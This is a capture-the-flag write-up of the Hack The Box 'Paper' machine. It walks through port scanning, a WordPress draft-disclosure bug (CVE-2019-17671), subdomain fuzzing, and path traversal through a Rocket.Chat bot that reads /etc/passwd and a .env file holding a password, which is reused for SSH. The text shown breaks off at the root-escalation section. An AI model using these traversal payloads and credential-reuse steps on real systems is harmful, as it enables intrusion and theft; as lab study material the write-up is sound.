










---
tags:
  - polkit
  - CVE-2021-3560
  - rocketchat
  - CVE-2019-17671
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Paper
- Reference : https://0xdf.gitlab.io/2022/06/18/htb-paper.html
- Solved : 2025.3.12. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: 22 (SSH), 80 (HTTP), 443 (HTTPS).
    - **HTTP Service**: Apache on CentOS, default test page.
    - **Header Discovery**: Found `X-Backend-Server: office.paper`, added `office.paper` to `/etc/hosts`.
    - **CMS Detected**: WordPress.
    - **User Enumeration**: `prisonmike`, `nick`, `creedthoughts`.
    - **Vulnerability Identified**: **CVE-2019-17671** – View private/draft posts without authentication.
    
2. **Web Exploitation**
    - **Draft Disclosure (CVE-2019-17671)**:
        - Found secret URL: `http://chat.office.paper/register/8qozr226AhkCHZdyY`.
        - Subdomain fuzzing revealed `chat.office.paper`.
    - **Rocket.Chat Registration**:
        - Registered and accessed chat.
        - Discovered `Recyclops` bot capable of listing and reading files from `/home/dwight/sales`.
        
3. **Shell as `dwight`**
    - **Path Traversal via Bot**:
        - Accessed `/home/dwight/hubot/.env` – leaked credentials.
        - Found `recyclops:Queenofblad3s!23`, used to SSH into `dwight@10.10.11.143`.
        
4. **Shell as `root`**
    - **Privilege Escalation (CVE-2021-3560 - Polkit PrivEsc)**:
        - Used public PoC to create a new sudo user `secnigma`.
        - Switched to `secnigma`, escalated to **root via `sudo bash`**.

### Key Techniques:

- **WordPress Draft Disclosure (CVE-2019-17671)**: Accessed secret internal URL.
- **Subdomain Fuzzing**: Identified `chat.office.paper` via `wfuzz`.
- **Rocket.Chat Bot Exploitation**: Used bot commands for file/path traversal.
- **Sensitive File Disclosure**: `.env` file leak → credential reuse.
- **Polkit Privilege Escalation (CVE-2021-3560)**: Created sudo user and escalated to root.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/paper]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.143       
[*] Performing quick TCP port scan on 10.10.11.143...
[*] Performing quick UDP port scan on 10.10.11.143 (top 1000 UDP ports)...
[+] Found open TCP ports: 22,80,443
[*] Performing detailed TCP scan on 10.10.11.143...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 03:17 MDT
Nmap scan report for 10.10.11.143
Host is up (0.12s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
```

### http(80)



The default page doesn't seem any special.
I tried `gobuster` fuzzing, but couldn't find anything useful.

```bash
┌──(kali㉿kali)-[~/htb/paper]
└─$ gobuster dir -u http://10.10.11.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.143
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 235] [--> http://10.10.11.143/manual/]
Progress: 16179 / 220561 (7.34%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 16199 / 220561 (7.34%)
===============================================================
Finished
===============================================================
```

I captured the response using `Burpsuite` and observed unusual header : `X-Backend-Server`

```yaml
HTTP/1.1 403 Forbidden
Date: Wed, 12 Mar 2025 09:48:40 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-
```

This seems to be a domain of the server. Let's add this to `/etc/hosts`.



Given the footer "Blunder Tiffin Inc. Proudly Powered By WordPress", it seems to be running on Wordpress.
There are some articles posted, but none of them are really useful except one reply.



The comment says that there's a secret content on draft.

```bash
┌──(kali㉿kali)-[~/htb/paper]
└─$ sudo wpscan -e ap,t,u -t 500 --url http://office.paper --api-token $(cat /opt/wpscan/api_token.txt)

...SNIP...

 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 
...SNIP...

[i] User(s) Identified:

[+] prisonmike
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] nick
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://office.paper/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] creedthoughts
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

...SNIP...
```

There's an identified vulnerability "Unauthenticated View Private/Draft Posts".
It seems to be useful since we've found the comment that there's a secret content on draft.


# Shell as `dwight`

### Draft content disclosure from wordress (CVE-2019-17671)

According to the [reference](https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/), I can fetch the draft contents by adding `&static=1` parameter on URL.

I tried, and it returned draft texts.

```csharp
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez
```

It provides an URL to register new employee to the chat system.
It seems that there's a subdomain; `chat.office.paper`

Let's do subdomain fuzzing using `wfuzz`, and found one "chat.office.paper".

```markdown
┌──(kali㉿kali)-[~/htb/paper]
└─$ wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://office.paper/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000000070:   200        507 L    13015 W    223163 Ch   "chat"  
```

As we found, it shows a subdomain `chat.office.paper`. Let's add this to `/etc/hosts`.
Let's visit this page.



It's redirected to a login page of which title is "rocket.chat".
Let's hit by the URL mentioned on the draft before : 
http://chat.office.paper/register/8qozr226AhkCHZdyY

Then, it's returning a register page.



After sign-up, I can see the following page.



There's one chat room exists : "General"



```text
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

Given the talk, my initial thought was I can may run commands or list files using the mentioned bot. However, the room was "read-only".

Instead, I created another chat-room and invited the mentioned bot.



Then, I tested if the bot is working and it worked!



With "recyclops list" context, I can list `/home/dwight/sales` directory.



File in `/home/dwight/sales/sale`.

```bash
recyclops list sale

=========================

 Fetching the directory listing of sale
total 4
drwxr-xr-x 2 dwight dwight 27 Sep 15 2021 .
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 ..
-rw-r--r-- 1 dwight dwight 158 Sep 15 2021 portfolio.txt
```

Read `sale/portfolio.txt`.

```bash
recyclops file sale/portfolio.txt

=========================

 <!=====Contents of file sale/portfolio.txt=====>
Portfolio
----------
- Bill
- Served the country in war
- Family built the country
- purchased paper worth a million dollars
- will probably fire me.
<!=====End of file sale/portfolio.txt=====>
```

Read `sale_2/portfolio.txt`.

```bash
recyclops file sale_2/portfolio.txt

=========================

 <!=====Contents of file sale_2/portfolio.txt=====>
Portfolio
----------
- Christian
- Still No idea how micheal made the sale!
- Need further clarifications.
<!=====End of file sale_2/portfolio.txt=====>
```

It seems that I can match the context with linux commands;
- `recylcops list` : `ls -al`
- `recyclops file` : `cat`

### Path Traversal

Using this feature, I tried path traversal to check if we can fetch outside of `/home/dwight/sales/` directory, and it worked!

```bash
recyclops list ..

=========================

total 32
drwx------ 11 dwight dwight 281 Feb 6 2022 .
drwxr-xr-x. 3 root root 20 Jan 14 2022 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 Mar 12 05:11 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
```

Let's read `bot_restart.sh`.

```bash
recyclops file ../bot_restart.sh

=========================

 <!=====Contents of file ../bot_restart.sh=====>
#!/bin/bash

# Cleaning hubot's log so that it won't grow too large.
echo "" > /home/dwight/hubot/.hubot.log


# For starting the bot 20-ish (10+20) seconds late, when the server is restarted.
# This is because MongoDB and Rocket-Chat server needs some time to startup properly
sleep 10s

# Checks if Hubot is running every 10s
while [ 1 ];
do
sleep 20s
alive=$(/usr/sbin/ss -tulnp|grep 8000);
if [[ -n $alive ]]; then
err=$(grep -i 'unhandled-rejections=strict' /home/dwight/hubot/.hubot.log)
if [[ -n $err ]]; then
# Restarts bot
echo "[-] Bot not running!
date";
#Killing the old process
pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6);
kill -9 $pid;
cd /home/dwight/hubot;
# Cleaning hubot's log so that it won't grow too large.
echo "" > /home/dwight/hubot/.hubot.log
bash /home/dwight/hubot/start_bot.sh&
else


echo "[+] Bot running succesfully! date";
fi

else
# Restarts bot
echo "[-] Bot not running! date
";
#Killing the old process
pid=$(ps aux|grep -i 'hubot -a rocketchat'|grep -v grep|cut -d " " -f6);
kill -9 $pid;
cd /home/dwight/hubot;
bash /home/dwight/hubot/start_bot.sh&
fi

done
<!=====End of file ../bot_restart.sh=====>
```

I focused on the directory `/home/dwight/hubot` which potentially has resources of the bot.

```bash
recyclops list ../hubot

=========================

total 244
drwx------ 8 dwight dwight 4096 Sep 16 2021 .
drwx------ 11 dwight dwight 281 Feb 6 2022 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 69895 Mar 12 08:34 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 2021 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 2021 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 2022 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock
```

I found `.env` file which usually contains critical information.
Let's read this file.

```bash
recyclops file ../hubot/.env

=========================

 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

It discloses the user `recyclops`'s password : `Queenofblad3s!23`

Just to check which user exists on the system, I read `/etc/passwd` file.

```bash
recyclops file ../../../etc/passwd

=========================

root❌0:0:root:/root:/bin/bash

...SNIP...

rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
```

It has `rocketchat` as a user, so hopefully I can use the found credential.
Let's test this password with these two accounts; `rocketchat`, `dwight`.

```bash
┌──(kali㉿kali)-[~/htb/paper]
└─$ ssh rocketchat@10.10.11.143          
rocketchat@10.10.11.143's password: 
Permission denied, please try again.
rocketchat@10.10.11.143's password: 


┌──(kali㉿kali)-[~/htb/paper]
└─$ ssh dwight@10.10.11.143    
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ whoami
dwight
```

I got `dwight`'s shell!


# Shell as `root`

### Enumeration

